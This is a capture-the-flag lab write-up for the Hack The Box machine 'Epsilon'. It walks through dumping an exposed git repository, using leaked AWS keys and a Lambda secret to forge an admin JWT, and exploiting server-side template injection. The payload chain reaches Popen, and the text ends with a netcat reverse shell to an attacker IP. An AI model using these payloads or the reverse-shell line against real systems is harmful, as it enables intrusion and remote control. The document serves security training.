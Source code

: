 # Epsilon
### Epsilon Machine(10.10.11.134)

![Screenshot from 2022-02-08 22-32-33](https://user-images.githubusercontent.com/79413473/153037809-0329e042-a149-43dd-8a54-442184fe8962.png)
## Recon:
+ Add *epsilon.htb* to hosts file.
+ Runing Port Scan we get 3 open ports
 ```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41
| http-git: 
|   10.10.11.134:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Updating Tracking API  # Please enter the commit message for...
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Costume Shop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  
+ Port 80 is apache & port 5000 is running python costume shop application.
+ As shown in scan port 80 is *403 Forbidden* & have a **.git** directory that also is 403. Files like .**git/config & .git/HEAD** are accessible we will use 
  [GitTools](https://github.com/internetwache/GitTools) tool to dump this git directory and extract cotent from this .git file.
+ Port 5000 web application have a login panel, default & easy to guess passwords doesn't work.

![Screenshot from 2022-02-08 22-41-19](https://user-images.githubusercontent.com/79413473/153039325-416031ed-72ef-4330-ab7e-b30cc0519997.png)

+ Running ffuf on this application we get three directories
 ```
home
order
track

 ```
 + visiting **/track** will welcome you as **admin** but moment you interact with it you will redirected to loginn page like other pages. suggesting session is being checked at server.
 
 ## Foothold: Admin access by AWS leak & exploiting SSTI
 
+ As for now we have nothing other than **.git** directory which often leak stuffs.
+ Read *gittools docs* and you can dump the git directory using this command `./gitdumper.sh http://epsilon.htb/.git/ tmp_dir`
+ Now from this directory you can extract actual commits `./extractor.sh tmp_dir ./git`
+ Now you can read surce code and find that there are some AWS keys leaks & new endpoint.
 ```
 session = Session(
    aws_access_key_id='AQLA5M37BDN6FJP76TDC',
    aws_secret_access_key='OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A',
    region_name='us-east-1',
    endpoint_url='http://cloud.epsilong.htb') #this is a typo it's epsilon
aws_lambda = session.client('lambda')   
```
+ Accessing cloud.epsilon.htb will give you 403 in browser guess it's not accessible this way.
+ Let's add these keys to our **[aws cli](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)**  and we can access aws lambda from our terminal.

*What is AWS LAMBDA?
AWS lambda provides service to  run your code on particular events or triggers. Mainly used in backend application to manage websites
Official Link: [CLick](https://aws.amazon.com/lambda/features/)*

+ run **aws configure** and add keys and region or manually paste keys in your **~/.aws/credentials** & region in **~/.aws/config** file.
+ You can learn more about aws lambda by **aws lambda help** it will give you all possible commands to run. One of our use is **list-functions & get-function**
+ Run `aws lambda list-functions` and you will get following error:
 `An error occurred (UnrecognizedClientException) when calling the ListFunctions operation: The security token included in the request is invalid`
+ Guess it also needs specify endpoint url , needed to take help from walkthrough.
+ `aws lambda list-functions --endpoint-url=http://cloud.epsilon.htb`
 ![Screenshot from 2022-02-08 23-08-00](https://user-images.githubusercontent.com/79413473/153044152-3a86cfce-562a-4c93-aba9-732490d7d526.png)

+ Let's fetch **costume_shop_v1** fucntion contents , `aws lambda get-function --function-name=costume_shop_v1 --endpoint-url=http://cloud.epsilon.htb`
![Screenshot from 2022-02-08 23-09-53](https://user-images.githubusercontent.com/79413473/153044411-4f2ae4a1-0cf5-485e-9ee9-f784564e2e38.png)

+ It reveals *Location of code*, Download it and unzip the file you will get some more code.
```
import json

secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124

'''Beta release for tracking'''
def lambda_handler(event, context):
    try:
        id=event['queryStringParameters']['order_id']
        if id:
            return {
               'statusCode': 200,
               'body': json.dumps(str(resp)) #dynamodb tracking for CR-342
            }
        else:
            return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
    except:
        return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
```  

+ Basic lambda fucntion for order tracking but interesting thing is secret key.
+ Now if you take a look on python source code of application 
```

@app.route("/", methods=["GET","POST"])
def index():
	if request.method=="POST":
		if request.form['username']=="admin" and request.form['password']=="admin":
			res = make_response()
			username=request.form['username']
			token=jwt.encode({"username":"admin"},secret,algorithm="HS256")
			res.set_cookie("auth",token)
			res.headers['location']='/home'
			return res,302
		else:
			return render_template('index.html')
	else:
		return render_template('index.html')
``` 
+ it sets jwt token in cookie **auth** and there is a secret used to sign this cookie. This secret could be a potential secret for that and it doesn't hurt to try. Btw this *admin:admin* creds doesn't work.
+ Let's create a jwt token in python
```
>>> import jwt
>>> secret='RrXCv`mrNe!K!4+5`wYq'
>>> token=jwt.encode({"username":"admin"},secret,algorithm="HS256")
>>> token
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg'
>>> 
```  
+ set Cookie **auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg** in browser and you have full access.
![Screenshot from 2022-02-08 23-19-48](https://user-images.githubusercontent.com/79413473/153046186-227226e3-9f96-48be-b3df-e66d6fcdb867.png)

+ On order page you can place new orders and it reflect you input

![2022-02-08_23-24](https://user-images.githubusercontent.com/79413473/153046917-6555527a-4eeb-4c83-8082-ca913b5abea1.png)

+ FIrst thing comes to mind is to check for xss, and indeed it is vulnerable to HTML injection,& XSS but it's of no use as we are already admin and no one is interacting with it and it's self xss it's not getting stored anywhere.
 ![Screenshot from 2022-02-08 23-27-03](https://user-images.githubusercontent.com/79413473/153047378-170939b0-27e1-433d-9bac-3f952ea4d328.png)
by setting `costume=glasses</p><h1>INJECTION</h1>`.

+ As it is a python application and input is reflected SSTI(Server Side Template INjection) only thing that could be tested now, and ofcourse machine tag has it :)
+ As expected `{{7*7}}` truns into **Your order of "49" has been placed successfully.**
 ### Creating exploit
 1. In python **[`.__class__`](https://docs.python.org/release/2.6.4/library/stdtypes.html#instance.__class__)** will tell to which class your current instance belongs to.
 ![Screenshot from 2022-02-08 23-42-02](https://user-images.githubusercontent.com/79413473/153049767-d552a80b-f752-43a2-ae73-289a6dcfd0c0.png)
`costume={{ ''.__class__ }}` tells it's an string class.
2. **[`__mro__`](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__mro__)** is an attribute of a class which tells base/parent class of this object.
`costume={{ ''.__class__.__mro__ }}` will show 
![Screenshot from 2022-02-08 23-47-15](https://user-images.githubusercontent.com/79413473/153050613-b77558f8-1edd-42e0-bd5b-09d9efb3062a.png)
3. Now as we want to climb up to root object we will access with `[1]`
4. Now we want to see how many subclasses are accessible through this root onject [`__subclasses__()`](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__subclasses__). 
`costume={{ ''.__class__.__mro__[1].__subclasses__() }}` will return list of subclasses accessbile.
![Screenshot from 2022-02-08 23-51-33](https://user-images.githubusercontent.com/79413473/153051393-a27459b2-a1cd-43e4-93bd-ee04e58f575f.png)
5. From this haystack of list we need to find the needle i.e popen module which will execute the command. here that is at index of 389, used some find and replace all trick in sublime.
6. `costume={{ ''.__class__.__mro__[1].__subclasses__()[389]("id",shell=True,stdout=-1).communicate() }}` now through 389 we are accessing popen and providing it arguments to process & communicate() to read output  by interacting with process by sending data to stdin and reading from stdout or stderr.
![Screenshot from 2022-02-08 23-59-11](https://user-images.githubusercontent.com/79413473/153052383-a40e6ba0-2959-4b42-9dfa-b1b97282023e.png)

+ As now we have command executing we should get a shell and have your listener ready. I used this reverse shell `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f` .Also needed to url encode only revshell part to make it work. Otherwise 500 server error.

`costume={{ ''.__class__.__mro__[1].__subclasses__()[389]("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.29+8082+>/tmp/f",shell=True,stdout=-1).communicate() }}`
![Screenshot from 2022-02-09 00-02-53](https://user-images.githubusercontent.com/79413473/153052905-2c369163-7602-4e86-8a60-79674fc5fd89.png)






